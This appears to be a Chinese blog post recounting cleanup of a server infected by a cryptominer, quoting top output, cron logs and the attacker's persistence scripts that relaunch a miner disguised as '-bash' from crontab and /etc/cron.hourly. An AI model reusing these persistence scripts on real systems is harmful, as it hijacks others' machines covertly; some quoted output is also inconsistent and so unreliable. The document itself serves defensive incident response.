 # 记一次服务器被当成矿机挖矿，CPU一直99%不下

## 问题排查与解决过程

### top 查询CPU占用过高的程序
```shell
Tasks: 254 total,   1 running, 253 sleeping,   0 stopped,   0 zombie
%Cpu(s):  99.2 us,  0.5 sy,  0.0 ni, 91.0 id,  0.3 wa,  0.0 hi,  0.0 si,  0.0 st
KiB Mem : 16266124 total,   196652 free, 15210732 used,   858740 buff/cache
KiB Swap:        0 total,        0 free,        0 used.   439680 avail Mem 

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND                                                                              
17194 root  20   0 7391168   1.3g  34748 S  59.5  558.2   8083:37 -bash                                                                         
26099 root      20   0 3558676  80924   4120 S   1.7  0.5 113:04.64 cmagent                                                                              
30400 clouder+  20   0 8143696   1.6g  13308 S   1.0 10.3  67:36.12 java   
```

发现`-bash`占用550%的CPU，导致CPU总占用为99%

`kill -9 pid`后发现，过一会，`-bash`又启动了

### 查询定时任务

```shell
crontab -e 
****** /mnt/.systemd/-bash > /dev/null 2>&1
```

发现在用户的定时任务crontab中 `/mnt/.systemd/-bash` 没分钟定时跑一次，`-bash`内容如下：

```shell
#!/bin/bash
cd -- /mnt/.systemd
mkdir -- .-bash
cp -f -- x86_64 .-bash/-bash
./.-bash/-bash -c
rm -rf -- .-bash
```

发现真实的挖矿程序为`x86_64`，最终删除`-bash`脚本和`x86_64`程序

但是。过几分钟后，有发现挖矿程序有启动了 ，想着是不是有小时的定时脚本在跑，正好发现重启的时间正好是整点后的

### 查询定时任务执行日志

查询定时任务执行日志，分析是否还有其他定时任务在跑

```shell
vim /var/log/cron

# 分钟的，正好对应 crontab -e 中的定时脚本
May 30 23:59:01 hadoop2 CROND[29320]: (root) CMD (/mnt/.systemd/-bash > /dev/null 2>&1;)
May 31 00:00:01 hadoop2 CROND[29427]: (root) CMD (/mnt/.systemd/-bash > /dev/null 2>&1;)
May 31 00:01:01 hadoop2 CROND[29529]: (root) CMD (/mnt/.systemd/-bash > /dev/null 2>&1;)

# 小时整点的
May 31 00:01:02 hadoop2 run-parts(/etc/cron.hourly)[29530]: starting sync
May 31 00:01:02 hadoop2 run-parts(/etc/cron.hourly)[29601]: finished sync

```

通过查询定时任务执行日志发现，还存在小时的定时任务`sync`在执行，去到`/etc/cron.hourly`小时任务目录下查看，发现一个脚本为`sync`，脚本内容为：

```shell
#!/bin/bash
#
# Start/Stop the pwnrig clock daemon
#
# chkconfig 2345 90 60
# description: sync clock (GNU System)
cp -f -r -- /bin/sysdrr /usr/bin/-bash 2>/dev/null
cd /usr/bin/ 2>/dev/null
./-bash -c >/dev/null
rm -rf -- -bash 2>/dev/null
```

分析脚本内容为：复制`/bin/sysdrr`文件到`/usr/bin/`下，改名为`-bash`，启动服务，并删除`-bash`。从这可以看出`/bin/sysdrr`基本就是此次被入侵的源头

在` /bin/` 下找到 `sysdrr` 挖矿源病毒程序，并删除！同时也可以使用` find / -name sysdrr`全盘查找源病毒程序，并删除！

在` /etc/cron.monthly/` ,  `/etc/cron.weekly/` , ` /etc/cron.daily/` ,  `/etc/cron.hourly/` 这些定时目录里找到`sync`程序并删除！

但是在删除`/bin/sysdrr`文件和`sync`脚本时发现，使用`rm -f`命令删除：

```shell
rm -f sysdrr 
rm: 无法删除"sysdrr": 不允许的操作

# 使用 lsattr 查看
lsattr /bin/sysdrr 
----i--------e-- /bin/sys

# 解除限制
chattr -R -i /bin/sysdrr
lsattr /bin/sysdrr 
-------------e-- /bin/sysdrr

# 删除成功
rm -f sysdrr

```

同步骤删除`/etc/cron.monthly/ `，`/etc/cron.weekly/ `，`/etc/cron.daily/`，`/etc/cron.hourly/`下的`sync`脚本

至此，问题挖矿定时任务和程序文件全部清除，服务器的CPU使用情况恢复正常

## 总结
服务器的账号的登录密码不能可以设置的太简单，mysql、redis等服务的端口号尽量不使用默认端口号，相关的账号和密码不能设置过于简单



